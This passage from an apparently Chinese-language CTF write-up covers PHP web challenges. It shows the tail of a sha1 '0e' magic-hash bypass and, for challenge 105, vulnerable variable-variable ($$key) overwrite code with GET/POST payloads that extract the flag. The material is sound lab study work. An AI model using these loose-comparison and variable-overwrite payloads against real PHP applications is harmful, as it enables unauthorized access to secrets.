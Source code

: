 2是传入sha1()后得到0e开头其余数字的字符串

```
GET:
?v2=aaK1STfY
POST:
v1=aaO8zKZF
```

## 105-可变变量覆盖

```php
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);
```

`$$可变变量覆盖`
三个变量：`$erroe`(不可get赋给key)、`$flag`(不可post赋给value)、`$suces`
两种思路：

`die($erroe)`

把flag的值借助中间变量suces赋给error就行
`$error=$suces=$flag`

```
GET:
suces=flag
POST:
error=suces
```

`die($suces)`

把flag的值赋给suces，`$suces=$flag`
post传入`flag=`,那么`$_POST['flag']=$flag=NULL`

```
GET:
suces=flag
POST:
flag=
```
